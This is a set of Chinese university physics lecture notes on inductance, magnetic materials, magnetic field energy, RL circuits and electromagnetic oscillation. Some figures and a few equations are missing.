
当 \(i_1\) 变化时，会在 \(S_2\) 上感应出电动势 \(\varepsilon_2\)；同样地，当 \(i_2\) 变化时，会在 \(S_1\) 上感应出电动势 \(\varepsilon_1\)。
我们可以定义一个新的物理量：磁通匝链数 \(\Psi\)，它是磁通量和匝数的乘积。
\(S_1\) 在 \(S_2\) 上产生的磁通匝链数为
同理，\(S_2\) 在 \(S_1\) 上产生的磁通匝链数为
于是我们可以通过互感系数 \(M\) 来求出感生电动势的大小 $$ M_{12} = \frac{\Psi_{12}}{i_1} = \frac{N_2 \Phi_{12}}{i_1}; \quad \varepsilon_2 = -\frac{ \mathrm{d}\Psi_{12} }{\mathrm{d}t} = -M_{12} \frac{\mathrm{d}i_1}{\mathrm{d}t}, \quad (i_1 \text{change} ) $$
互感系数
上面的 \(M_{12}\) 和 \(M_{21}\) 就是互感系数，一般而言，它们两者相等，即 \(\(M_{12} = M_{21} = M\)\) 互感系数的单位为亨利（hery），$ 1H = 1 \dfrac{Wb}{A} \(，常用的单位有\)mH\(、\)\mu H$等。
自感¶

当通电线圈的电流发生变化时，线圈本身也会产生感生电动势，这种现象称为自感。
根据楞次定律，我们可以很显然地知道感生电动势所产生的磁场，会倾向于阻碍原磁场的变化。同时我们也可以注意到感应电动势会使得线圈两端出现电势差，并且这个电势差的大小就等于感生电动势的大小。
其中，\(L\) 被称为线圈的自感系数，单位也为亨利。
如何计算自感系数
- 假设电流大小为 \(i\)
- 利用 \(i\) 计算电流产生的磁感应强度 \(\overrightarrow{B}\)
-
计算磁通匝链数
\[ \Psi = N\Phi_B = NBA = Li \] -
计算自感系数
\[ \begin{aligned} L &= \dfrac{\Psi}{i} = \dfrac{N\Phi_B}{i} \\\\ \varepsilon_L &= -\dfrac{\mathrm{d}\Psi}{\mathrm{d}t} \\\\ &= -L \dfrac{\mathrm{d}i}{\mathrm{d}t} \\\\ &= -N \dfrac{\mathrm{d}\Phi_B}{\mathrm{d}t} \end{aligned} \]
Example

计算一段长度为 \(l\)，横截面积为 \(A\) 的通电螺线管的自感系数 \(L\)，我们可以按照上面提到的方法进行计算。 $$ B = \mu_0 n i $$ $$ \Psi = N \Phi_B = nlBA = \mu_0 n^2 ilA $$ $$ L = \dfrac{\Psi}{i} = \mu_0 n^2 lA = \mu_0 n^2 V $$
其中，\(V\) 是这一段螺线管的体积。因此我们可以得到单位体积和单位长度螺线管的自感系数： $$ L_v = \dfrac{L}{V} = \mu_0 n^2, \quad L_l = \dfrac{L}{l} = \mu_0 n^2 A $$

如上图所示，长方形螺绕环共有 \(N\) 匝，内径为 \(a\)，外径为 \(b\)，宽度为 \(h\)，通电电流为 \(i\)。
首先利用环路定理求出磁感应强度 \(B\) $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0 N i $$ $$ B = \dfrac{\mu_0 N i}{2 \pi r} $$
接着就可以求出磁通量 \(\Phi_B\)，进而求出自感系数 \(L\)

所谓同轴电缆（coaxial cable）就是由两个同轴的导线组成的电缆，内导线半径为 \(R_1\)，外导线半径为 \(R_2\)，两导线上的电流大小相等、方向相反。 $$ \oint \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0 i $$ $$ B = \dfrac{\mu_0 i}{2 \pi r} $$
$$ L = \dfrac{\Phi_B}{i} = \dfrac{\mu_0 l}{2 \pi} \ln \dfrac{R_2}{R_1} $$ 其中，\(l\) 是电缆的长度。
线圈的拼接¶

将两端线圈连接在一起，则它们既会产生互感，也会产生自感。
不妨记两个线圈的自感系数分别为 \(L_1, \quad L_2\)，在没有通量泄露的情况下，它们的互感系数为 $$ M = \sqrt{L_1 L_2} $$
左侧的连接方式使得使得两线圈电流方向相同，表示两线圈顺接；反之，右侧的连接方式表示两线圈反接。
- 顺接：$ L = L_1 + L_2 + 2M = L_1 + L_2 + 2\sqrt{L_1 L_2} $
- 反接：$ L = L_1 + L_2 - 2M = L_1 + L_2 - 2\sqrt{L_1 L_2} $
材料的磁性质¶
类似于在电容器中插入电介质可以让电容增大 $$ C = \kappa_e C_0 $$ 在磁场中插入磁性材料同样也可以让自感系数增大 $$ L = \kappa_m L_0 $$ 其中，\(\kappa_m\) 是磁导率，对于顺磁材料，\(\kappa_m \approx 1\)；对于铁磁材料，\(\kappa_m \gg 1 (10^3 \sim 10^4)\)。
原子与原子核磁性¶
轨道磁矩¶

材料的磁性质主要由其价电子的磁矩来决定 $$ \mu = iA $$ $$ i = \dfrac{e}{T} = \dfrac{e}{2\pi r / v} = \dfrac{ev}{2\pi r} $$
又因为我们知道电子在绕原子核旋转时会有一个角动量 \(l = mvr\)，所以 $$ \mu_l = \dfrac{e}{2m} l, \quad \quad \overrightarrow{\mu}_l = -\dfrac{e}{2m} \overrightarrow{l} $$
还有 $$ \overrightarrow{\mu}_L = -\dfrac{e}{2m} \overrightarrow{L} $$ 其中，\(\overrightarrow{L}\) 是原子所有电子的总轨道角动量，\(\overrightarrow{\mu}_L\) 是原子所有电子的总轨道磁矩。
在量子的机制下，我们知道电子的轨道角动量是量子化的， $$ L = \sqrt{L(L+1)} \dfrac{h}{2\pi} = \sqrt{L(L+1)} \hbar $$
自旋磁矩¶
除了轨道磁矩外，粒子还具有自旋角动量 \(S\) 和自旋磁矩 \(\overrightarrow{\mu}_S\)
| Particle | Spin | Type |
|---|---|---|
| Electron | $ s = \frac{1}{2} \hbar $ | Fermi |
| Proton | $ s = \frac{1}{2} \hbar $ | Fermi |
| Neutron | $ s = \frac{1}{2} \hbar $ | Fermi |
| Deuteron | $ s = \hbar $ | Bose |
| Alpha Particle | $ s = 0 $ | Bose |
可以注意到所有费米子的角动量都是 \(\hbar\) 的半整数倍，而玻色子的角动量都是 \(\hbar\) 的整数倍。
整个粒子的自旋磁矩为 $$ \overrightarrow{\mu}_S = - \dfrac{e}{m} \overrightarrow{S} $$ 其中 \(\overrightarrow{S} = \sum \overrightarrow{s}\) 是粒子的总自旋角动量。
磁化强度¶
在电学部分，我们引入了极化强度 \(P\) 来描述电介质的极化程度，而在磁学部分，我们也引入了磁化强度 \(M\) 的概念来描述磁性材料的磁性质。


当铁磁材料处于外部磁场中时，其内部原本杂乱无章的分子（或原子）磁矩会在磁场的作用下，趋于方向与磁场方向一致。
从整体来看，就相当于在整个材料的外表面产生了一个大的环形束缚电流，而这个束缚电流又会在铁磁材料内部产生一个磁场，因此总的磁场是 $$ \overrightarrow{B} = \overrightarrow{B}_0 + \overrightarrow{B}'_M $$
磁化强度矢量¶
磁化强度矢量定义为单位体积内磁矩的矢量和，即 $$ \overrightarrow{M} = \dfrac{\sum \overrightarrow{\mu_m}}{\Delta V} $$
极化强度矢量
回忆极化强度矢量的定义和性质，我们有 $$ \overrightarrow{P} = \dfrac{\sum \overrightarrow{p}}{\Delta V} $$ $$ \oiint \overrightarrow{P} \cdot d\overrightarrow{A} = -\sum q' $$ $$ \overrightarrow{P} \cdot \overrightarrow{n} = \sigma'_e $$
很自然地，我们希望磁化强度矢量也具有类似于极化强度矢量的性质，即 $$ \oiint \overrightarrow{M} \cdot d\overrightarrow{l} = \sum i_{in} $$ $$ \overrightarrow{M} \times \overrightarrow{n} = \overrightarrow{j}' $$

右图中，红色部分时环绕在磁材料表面的电流，电流面密度为 $$ j' = \dfrac{i'}{\Delta z} $$ 在这里我们只需要除以 \(\Delta z\) 是因为在我们用虚线框住的范围内，\(y\) 方向上是没有电流的。
非均匀磁化
对于非均匀磁化，可以将其分割成许多小块，这样每一小块都可以认为是均匀磁化的，从而可以得到整体的磁化强度。

磁场强度¶
由磁场的环路定理，我们知道 $$ \oint_L \overrightarrow{B} \cdot d\overrightarrow{l} = \mu_0 \sum_{inL} (i_0 + i') = \mu_0 \sum_{inL} i_0 + \mu_0 \oint_L \overrightarrow{M} \cdot d\overrightarrow{l}$$ 于是 $$ \oint_L (\dfrac{\overrightarrow{B}}{\mu_0} - \overrightarrow{M}) \cdot d\overrightarrow{l} = \sum_{inL} i_0 $$
因此我们可以定义磁场强度为 $$ \overrightarrow{H} = \dfrac{\overrightarrow{B}}{\mu_0} - \overrightarrow{M} $$ $$ \oint_L \overrightarrow{H} \cdot d\overrightarrow{l} = \sum_{inL} i_0 $$
磁场强度 \(\overrightarrow{H}\) 的单位是奥斯特 Os,安培每米（A/m）。
Note
在真空中，有 $$ \overrightarrow{M} = 0, \quad \overrightarrow{H} = \dfrac{\overrightarrow{B}}{\mu_0}, \quad \overrightarrow{B} = \mu_0 \overrightarrow{H} $$
磁化强度、磁场强度与磁感应强度的关系¶
由于 $$ \overrightarrow{B} = \mu_0 (\overrightarrow{H} + \overrightarrow{M}) = \mu_0 (1 + \chi_m) \overrightarrow{H} = \kappa_m \mu_0 \overrightarrow{H} $$ $$ \therefore \kappa_m = 1 + \chi_m $$ 其中，\(\chi_m\) 是磁化率，\(\kappa_m\) 是磁导率。
这和我们之前对介电常数和极化率的定义是一致的。$ \kappa_e = 1 + \chi_e $
Example
在螺线管中插入铁磁材料，可以让它的自感系数增大

于是磁感应强度的比值为 $$ B = \mu_0 \kappa_m H = \mu_0 \kappa_m n i_0 = \kappa_m B_0 $$ $$ \therefore \dfrac{B}{B_0} = \kappa_m $$
从而 $$ \dfrac{L}{L_0} = \dfrac{\Psi}{\Psi_0} = \kappa_m $$
Idea
从这样的角度看来，磁场强度 \(H\) 与电场强度 \(E\)，磁感应强度 \(B\) 与电感应强度 \(D\) 之间的关系又是比较相似的。
磁化率与磁导率¶
不同类型材料的磁化率、磁导率如下表所示：
| 顺磁 | 抗磁 | 铁磁 | |
|---|---|---|---|
| \(\chi_m\) | 大于0但很小 (\(10^{-6}\)) | 小于0但绝对值远小于1 | 与磁场强度有关 |
| \(\kappa_m\) | 大于1但是接近1 | 小于1但是接近1 | 与磁场强度有关(\(10^2 \sim 10^3\)) |
磁化的微观解释¶
- 顺磁材料（paramagnetic materials）

材料内部原本杂乱无章的磁矩会在外部磁场的作用下，材料内部的磁矩会朝向磁场方向，磁化的程度与温度有关
居里定律： $$ \overrightarrow{M} = \chi_m \overrightarrow{H} = \dfrac{C}{T} \overrightarrow{H}, \quad \chi_m(T) = \dfrac{C}{T} $$ 其中 \(C\) 为居里常数，\(T\)为温度
因为顺磁性的磁化率很小，磁化强度也很小，所以它对总磁场的影响很小
- 抗磁材料（diamagnetic materials）
抗磁材料在没有外磁场的情况下，各电子之间的磁矩相互抵消，内部总磁矩为0
由于磁场对电子的洛伦兹力相比于库仑力非常小，因此它对电子的轨道半径几乎没有影响
加上外磁场后，电子会受到洛伦兹力，无论最开始时电子磁矩的方向与外磁场的方向相同还是相反，即无论电子会被加速还是减速，经过分析可以发现 \(\Delta \omega\) 都会产生一个与外磁场方向相反的磁矩（抗磁）
我们可以分析出磁矩的变化量为： $$ \mu = iA = \frac{ev}{2\pi r} \left( \pi r^2 \right) = \frac{1}{2} evr = \frac{e r^2}{2} \omega, \quad \overrightarrow{\mu_0} = -\frac{e r^2}{2} \overrightarrow{\omega_0} $$
- 铁磁材料（ferromagnetic materials）
铁磁材料初始的磁矩 \(\mu_0 \neq 0\)，且近邻原子磁矩间存在强相互作用
磁化强度矢量与温度的关系为


磁畴

即使在没有外加磁场B的情况下，磁性材料中的磁偶极子（磁性小区域）也会倾向于在小范围内强烈地排列成特定的方向，形成所谓的“磁畴”。当施加外部磁场时，这些磁畴会重新排列，使得它们的方向一致，从而产生大的总磁化强度
-
软铁磁体：指的是容易被磁化和退磁的磁性材料。它们在外部磁场作用下磁畴会有序排列，但磁场移除后磁畴会很快随机化。
-
硬铁磁体：指的是不易被退磁的磁性材料，例如某些特殊合金。它们在外部磁场移除后仍能保持磁畴的有序排列，因此具有较强的磁性。
-
永久磁体：通常指永久保持磁性的材料，例如稀土磁铁。它们的磁畴在没有外力作用下不会随机化，但可以通过施加外力（如磁场或震动）来改变磁畴的方向。
-
居里点：是磁性材料的一个物理特性，指的是材料由铁磁性变为顺磁性的转变温度。对于铁来说，这个温度是770摄氏度。
磁场储存的能量¶
电场的能量密度
之前我们学到，电容中的电场储存着能量，储存的能量与单位体积的能量密度分别为 $$ U_e = \dfrac{1}{2} CV^2 $$ $$ u_E = \dfrac{1}{2} \epsilon_0 E^2 $$
类似于电场，磁场中也同样储存着能量
螺线管中的能量¶

对于一个自感系数为 \(L\) 的螺线管，假设其连接电源后最大的电流为 \(i_{max}\)，那么 $$ dW = - \varepsilon_L dq = -\varepsilon_L i dt, \quad \varepsilon_L = -L \dfrac{di}{dt} $$ $$ \therefore dW = Li \dfrac{di}{dt} dt = Li di $$
两个相连螺线管中的能量¶

两线圈互感所做的功为：
所以总的磁场能为
\(k\) 个螺线管相连所具有的总磁场能为
磁场的能量密度¶

考虑一段长度为 \(l\)，横截面积为 \(A\) 的螺线管 $$ U = \dfrac{1}{2} LI^2 $$ $$ L = \mu_0 n^2 lA = \mu_0 n^2 V $$ $$ B = \mu_0 n I $$
于是单位体积内的磁场的能量为
电场和磁场的能量密度
两者具有相当程度的对称性。
Example


于是 $$ dU_B = u_B \cdot 2 \pi rl \cdot dr = \dfrac{\mu_0 i^2}{8 \pi^2 r^2} \cdot 2 \pi rl \cdot dr = \dfrac{\mu_0 i^2 l}{4\pi} \dfrac{dr}{r} $$ $$ U_B = \int_{R_1}^{R_2} dU_B = \dfrac{\mu_0 i^2 l}{4\pi} \ln \dfrac{R_2}{R_1} $$
又因为 $$ U_B = \dfrac{1}{2} Li^2 $$ 所以 $$ L = \dfrac{2U_B}{i^2} = \dfrac{\mu_0 l}{2\pi} \ln \dfrac{R_2}{R_1} $$
RL 电路¶
RC 电路

开关 K 闭合后 $$ iR + \frac{q}{C} = \varepsilon $$ $$ \frac{dq}{dt} + \frac{1}{RC} q = \frac{\varepsilon}{R} $$ $$ q = C\varepsilon\left(1 - e^{-t/RC}\right) $$

开关打向 a（接通电源）¶
当开关打向a时，RL电路中的电流逐渐增大
当 \(t = 0\) 时，有 \(i = 0\)，$ \therefore C' = -\frac{\varepsilon}{R} $
所以 $$ i = \frac{\varepsilon}{R}\left(1 - e^{-\frac{R}{L}t}\right) = \frac{\varepsilon}{R}\left(1 - e^{-\frac{t}{\tau_L}}\right) $$ 其中，$ \tau_L = \frac{L}{R} $ 被称为感应时间常数
所以螺线管部分两端的电势差为 $$ V_L = -L \frac{di}{dt} = -\varepsilon e^{-\frac{t}{\tau_L}} $$
电流与螺线管两端的电势差随时间的变化

-
电流：$ i = \frac{\varepsilon}{R}\left(1 - e^{-\frac{t}{\tau_L}}\right) $
最大电流为 \(\frac{\varepsilon}{R}\)
当 \(t=\frac{L}{R}\) 时，电流约为最大电流的63%
-
电势差：$ V_L = -L \frac{di}{dt} = -\varepsilon e^{-\frac{t}{\tau_L}} $
最大电势差为 \(\varepsilon\)
当 \(t=\frac{L}{R}\) 时，电势差约为最大电势差的37%
开关打向 b（不接通电源）¶
当不接通电源时，螺线管中会产生一个阻碍电流减小的自感电动势，作用相当于一个不断衰弱的电源
其中 \(c\) 是一个常数。再将 \(t=0\), \(i=\frac{\varepsilon}{R}\) 代入，得到 $$ i = \dfrac{\varepsilon}{R}e^{-\frac{R}{L}t} $$
电流与螺线管两端的电势差随时间的变化

-
电流：$ i = \frac{\varepsilon}{R} e^{-\frac{t}{\tau_L}} $
最大电流为 \(\frac{\varepsilon}{R}\)
当 \(t=\frac{L}{R}\) 时，电流约为最大电流的37%
-
电势差：$ V_L = -L \frac{di}{dt} = -\varepsilon e^{-\frac{t}{\tau_L}} $
最大电势差为 \(-\varepsilon\)
当 \(t=\frac{L}{R}\) 时，电势差约为最大电势差的37%
电磁振荡¶

在LC电路中，电容器和线圈的能量不断地相互转换，即电场能与磁场能不断地相互转换，这种现象被称为电磁振荡。
与简谐振动的类比

电磁振荡可以与简谐振动中的动能和势能相互转换进行类比。
我们知道简谐振动的频率为 \(\(\omega = \sqrt{\dfrac{k}{m}}\)\) 因此电磁振荡的频率为 \(\(\omega = \dfrac{1}{\sqrt{LC}}\)\)
Proof
阻尼振动¶

在 RLC 电路中，除了电容与线圈的能量转换外，还有电阻的存在。电阻在电流中会发热，导致能量不断损耗，因此电磁振荡会逐渐衰减，这种现象被称为阻尼振动。
对于右图中接通电源和不接通电源两种情况，我们有 $$ L \frac{di}{dt} + iR + \frac{q}{C} = \begin{cases} \varepsilon & \text{K} \to a \ 0 & \text{K} \to b \end{cases} $$
再带入 \(i=\frac{dq}{dt}\)，有 $$ L \frac{d^2 q}{dt^2} + R \frac{dq}{dt} + \frac{q}{C} = \begin{cases} \varepsilon & \text{K} \to a \ 0 & \text{K} \to b \end{cases} $$
|  Charging |
